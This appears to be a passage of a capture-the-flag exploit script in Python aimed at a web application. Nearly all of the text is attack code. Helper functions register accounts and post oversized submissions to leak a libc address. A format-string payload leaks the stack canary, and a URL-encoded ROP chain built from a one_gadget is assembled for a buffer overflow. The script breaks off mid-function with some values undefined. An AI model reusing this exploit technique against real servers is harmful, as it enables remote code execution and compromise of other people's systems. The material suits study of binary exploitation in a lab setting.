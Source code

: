 ```python
 
def submit(content, log=True, user='admin'): 
    data = { 
        'word': content 
    } 
    r = requests.post(submit_url, data=data, cookies={'name': user, 'pass': user}) 
    if log: 
        print(r.text) 
    return r 
 
def view_submit(log=True, user='admin'): 
    r = requests.get(submit_page, cookies={'name': user, 'pass': user}) 
    if log: 
        print(r.text) 
    return r 
 
def register(user='admin', log=False): 
    r = requests.get(register_url + '?name={user}&passwd={user}&re_passwd={user}'.format(user=user)) 
    if log: 
        print(r.text) 
 
 
def leak_libc(): 
    register() 
    for i in range(10): 
        submit('a'.ljust(0x1000, 'b'), False) 
    view_submit() 
 
 
    submit('a') 
    res = view_submit() 
    text_start = b'<textarea id="compose-textarea" class="form-control" style="height: 300px" name="word">' 
    idx = res.content.find(text_start) + len(text_start) + 1 
    content = res.content[idx:].strip(b' ').split(b'\n')[0] 
    libc_addr = u64(content.ljust(8, b'\x00')) 
    libc_base = libc_addr - 0x1ebb61 
    print(hex(libc_addr)) 
    print(hex(libc_base)) 
    libc_base = libc_addr - 0x1ec261 
    print(hex(libc_base)) 
 
 
def leak_canary(): 
    register() 
    register('fuck') 
    register('empty') 
 
    number = 0x3000 + 0x30 # v1 <- remote 
    payload = 'x' * (number - 0x18) + 'x' * 12 + '%55$p' + 'x' * (10-3) # working! for canary remote 
 
    submit(payload, user='fuck') 
    submit('a' * 0x100) 
    submit('a' * (0x10), user='fuck') 
    view_submit(user='empty') 
 
def main(): 
    rop = p64(one_gadget + libc_base) 
    payload_key = 'a' * 0x100 + 'b' * 0x100 + 'a' * 8 + 'a' + urllib.parse.quote(p64(canary)[1:]) + 'x' * 24 + urllib.parse.quote(rop) 
    payload_value = 'p' * 0x108 
```